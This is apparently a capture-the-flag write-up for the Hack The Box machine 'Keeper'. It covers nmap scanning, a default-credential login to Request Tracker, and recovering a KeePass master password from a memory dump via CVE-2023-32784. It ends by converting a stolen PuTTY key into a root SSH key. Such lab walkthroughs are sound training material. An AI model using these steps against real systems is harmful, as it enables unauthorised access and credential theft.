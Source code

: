 # Keeper

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 10.129.207.151          
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-13 22:12 +08
Warning: 10.129.207.151 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.129.207.151
Host is up (0.16s latency).
Not shown: 65393 closed tcp ports (conn-refused), 140 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

We can start proxying traffic through Burpsuite.

### Web Enumeration --> SSH Creds

Visiting the website itself shows a domain we need to add:

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

After adding to the `/etc/hosts` file, it brings us to a login page:

<figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

The website was running Best Practical Request Tracker (RT) 4.4.4, which is quite outdated. A bit of research reveals that `root:password` is the default password, which works here:

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

There is 1 ticket present, and it's an issue regarding Keepass (with the box name being an obvious hint).&#x20;

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

The attachment has been removed. There's also mention of another user named `lnorgaard`. When we use the Admin panel to view all Users, there's a password located within the user's comments:

<figure><img src="../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

Using these creds, we can `ssh` in as the user:

<figure><img src="../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Keepass Dump --> CVE-2023-32784

Within the user's directory, there's one `zip` file present:

```
lnorgaard@keeper:~$ ls
RT30000.zip  user.txt
```

Within it is the `.dmp` file for the Keepass client mentioned in the ticket earlier. I searched for Keepass exploits for 2023, and found this one:

{% embed url="https://sysdig.com/blog/keepass-cve-2023-32784-detection/" %}

This exploits allows us to get passwords from Keepass dump files, and there is one PoC for it:

{% embed url="https://github.com/vdohney/keepass-password-dumper" %}

We can clone the repository and clean it up a bit. Afterwards, use `scp` to transfer the file out:

```
scp lnorgaard@keeper.htb:~/KeePassDumpFull.dmp .
```

Then, in order to run the binary, I had to change the dependencies from `net7.0` to `net6.0` within the `.csproj` file:

```markup
<Project Sdk="Microsoft.NET.Sdk">

  <PropertyGroup>
    <OutputType>Exe</OutputType>
    <TargetFramework>net6.0</TargetFramework>
    <ImplicitUsings>enable</ImplicitUsings>
    <Nullable>enable</Nullable>
  </PropertyGroup>

</Project>
```

Afterwards, we can use `dotnet run` to execute the program:

```
$ dotnet run KeePassDumpFull.dmp
Password candidates (character positions):
Unknown characters are displayed as "●"
1.:     ●
2.:     ,, l, `, -, ', ], A, I, :, =, _, c, M, 
3.:     d, 
4.:     g, 
5.:     r, 
6.:     ●
7.:     d, 
8.:      , 
9.:     m, 
10.:    e, 
11.:    d, 
12.:     , 
13.:    f, 
14.:    l, 
15.:    ●
16.:    d, 
17.:    e, 
Combined: ●{,, l, `, -, ', ], A, I, :, =, _, c, M}<REDACTEDSTRING>
```

This would produce a string at the end with some non-printable characters. Googling part of the string reveals a certain Danish dessert (based on the username of the user):

<figure><img src="../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

Using the name of the dessert, we can access the passwords within the `.kdbx` file:

```
$ kpcli --kdb=passcodes.kdbx 
Provide the master password: *************************

KeePass CLI (kpcli) v3.8.1 is ready for operation.
Type 'help' for a description of available commands.
Type 'help <command>' for details on individual commands.

kpcli:/> ls
=== Groups ===
passcodes/
```

### Keepass PPX Key --> Root SSH Key

There are quite a few entries within this Keepass instance:

```
kpcli:/passcodes> ls *
/passcodes/eMail:

/passcodes/General:

/passcodes/Homebanking:

/passcodes/Internet:

/passcodes/Network:
=== Entries ===
0. keeper.htb (Ticketing Server)                                          
1. Ticketing System                                                       

/passcodes/Recycle Bin:
=== Entries ===
2. Sample Entry                                               keepass.info
3. Sample Entry #2                          keepass.info/help/kb/testform.

/passcodes/Windows:
```

Within the `keeper.htb` entry, there's a key of some sorts, as well as a fake password for `root`:

```
kpcli:/passcodes/Network> show -f 0

Title: keeper.htb (Ticketing Server)
Uname: root
 Pass: <TRUNCATED>
  URL: 
Notes: PuTTY-User-Key-File-3: ssh-rsa
       Encryption: none
       Comment: rsa-key-20230519
       Public-Lines: 6
       AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
       <TRUNCATED>
```

This is a Putty User Key File, which can be converted back to an `ssh` key.&#x20;

{% embed url="https://superuser.com/questions/232362/how-to-convert-ppk-key-to-openssh-key-under-linux" %}

```
$ puttygen key.ppk -O private-openssh -o sshkey.rsa
$ cat sshkey.rsa 
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAp1arHv4TLMBgUULD7AvxMMsSb3PFqbpfw/K4gmVd9GW3xBdP
<TRUNCATED>
```

After running `chmod 600` on it, we can use this private key to `ssh` in as `root`:

<figure><img src="../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

`dotnet run` saves loads of time transferring files to a Windows machine. Rooted!&#x20;
